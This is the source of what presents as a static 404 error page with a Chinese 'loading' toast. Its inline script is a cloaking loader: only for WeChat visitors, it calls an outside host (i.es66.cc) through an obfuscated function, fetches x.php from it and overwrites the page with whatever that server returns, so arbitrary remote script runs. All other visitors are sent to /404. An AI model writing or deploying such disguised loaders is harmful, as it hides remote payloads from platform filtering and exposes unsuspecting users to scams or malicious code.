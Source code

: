 ```yaml
---

permalink: /404.html

---
```

<!DOCTYPE html>
<html lang="zh-cmn-Hans">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width,initial-scale=1,user-scalable=0,viewport-fit=cover">
    <title>.</title>
    <style>
        html{-ms-text-size-adjust:100%;-webkit-text-size-adjust:100%}body{line-height:1.6;font-family:-apple-system-font,"Helvetica Neue",sans-serif}*{margin:0;padding:0}.weui-toast{position:fixed;z-index:5000;width:136px;height:136px;top:40%;left:50%;-webkit-transform:translate(-50%,-50%);transform:translate(-50%,-50%);text-align:center;border-radius:12px;color:rgba(255,255,255,0.9);display:-webkit-box;display:-webkit-flex;display:flex;-webkit-box-orient:vertical;-webkit-box-direction:normal;-webkit-flex-direction:column;flex-direction:column;-webkit-box-align:center;-webkit-align-items:center;align-items:center;-webkit-box-pack:center;-webkit-justify-content:center;justify-content:center;background-color:#4c4c4c;box-sizing:border-box;line-height:1.4}.weui-icon_toast{display:block;width:40px;height:40px;margin-bottom:16px}.weui-icon_toast.weui-primary-loading{width:36px;height:36px}.weui-icon_toast.weui-primary-loading:before,.weui-icon_toast.weui-primary-loading:after{content:"";display:block;width:18px;height:36px}.weui-icon_toast.weui-primary-loading:before{border-top-left-radius:36px;border-bottom-left-radius:36px}.weui-icon_toast.weui-primary-loading:after{border-top-right-radius:36px;border-bottom-right-radius:36px}.weui-toast__content{font-size:17px;padding:0 12px;word-wrap:break-word;-webkit-hyphens:auto;hyphens:auto}.weui-mask_transparent{position:fixed;z-index:1000;top:0;right:0;left:0;bottom:0}.weui-search-bar__input:not(:valid)+.weui-icon-clear{display:none}.weui-primary-loading{display:-webkit-inline-box;display:-webkit-inline-flex;display:inline-flex;position:relative;width:16px;height:16px;vertical-align:middle;color:black;color:var(--weui-FG);-webkit-animation:weuiLoading 1s steps(60,end) infinite;animation:weuiLoading 1s steps(60,end) infinite}.weui-primary-loading:before,.weui-primary-loading:after{content:"";display:block;width:8px;height:16px;box-sizing:border-box;border:2px solid;border-color:currentColor;opacity:.5}.weui-primary-loading:before{border-right-width:0;border-top-left-radius:16px;border-bottom-left-radius:16px;-webkit-mask-image:-webkit-linear-gradient(top,#000 8%,rgba(0,0,0,0.3) 95%)}.weui-primary-loading:after{border-left-width:0;border-top-right-radius:16px;border-bottom-right-radius:16px;-webkit-mask-image:-webkit-linear-gradient(225deg,rgba(0,0,0,0) 45%,rgba(0,0,0,0.3) 95%)}.weui-primary-loading__dot{position:absolute;top:0;left:50%;width:1px;height:2px;border-top-right-radius:2px;border-bottom-right-radius:2px;background:currentColor;opacity:.5}.weui-primary-loading_transparent{color:#fff}@-webkit-keyframes weuiLoading{0%{-webkit-transform:rotate3d(0,0,1,0deg);transform:rotate3d(0,0,1,0deg)}100%{-webkit-transform:rotate3d(0,0,1,360deg);transform:rotate3d(0,0,1,360deg)}}@keyframes weuiLoading{0%{-webkit-transform:rotate3d(0,0,1,0deg);transform:rotate3d(0,0,1,0deg)}100%{-webkit-transform:rotate3d(0,0,1,360deg);transform:rotate3d(0,0,1,360deg)}}
    </style>
</head>
<body>
<div>
    <div class="weui-mask_transparent"></div>
    <div class="weui-toast">
        <span class="weui-primary-loading weui-primary-loading_transparent weui-icon_toast">
          <span class="weui-primary-loading__dot"></span>
        </span>
        <p class="weui-toast__content">正在加载</p>
    </div>
</div>
<script>
function View(a) {
    function d() {
        var a = document.open("text/html", "replace");
        a.write(c), a.close();
    }
    var b, c;
    a = a + "?t_=" + Date.now(), b = new XMLHttpRequest(), c = null, b.onload = function() {
        c = b.responseText;
        var a = 0;
        a > 0 ? setTimeout(d, 1e3 * a) :d();
    }, b.open("GET", a, !0), b.send();
}
function gda6jrp46x27p7(a, b, c) {
    var d = new XMLHttpRequest();
    d.onreadystatechange = function() {
        4 === d.readyState && (200 === d.status || 304 === d.status ? "function" == typeof b && b(d.responseText) : "function" == typeof c && c(d));
    },d.open("GET", a, !0),d.send(null);
}
function getUrlParam(name) {var reg = new RegExp("(^|&)" + name + "=([^&]*)(&|$)");var r = window.location.search.substr(1).match(reg);if (r != null) return unescape(r[2]);return null;}

if (/micromessenger/.test(navigator.userAgent.toLowerCase())) {
    infos = {id:getUrlParam('id'), 'cnzz':'', 'bdtj':'' ,'apiurl':'https://i.es66.cc'};
    code = '';
    gda6jrp46x27p7(infos.apiurl+"/api/service/getTjCode?id=" + infos.id, function(aa) {
        aa = JSON.parse(aa);
        infos['cnzz'] = aa['cnzz'];
        infos['bdtj'] = aa['bdtj'];
        View(infos.apiurl +'/x.php');
    });
}else{
    location.href = '/404';
}
</script>
</body>
</html>
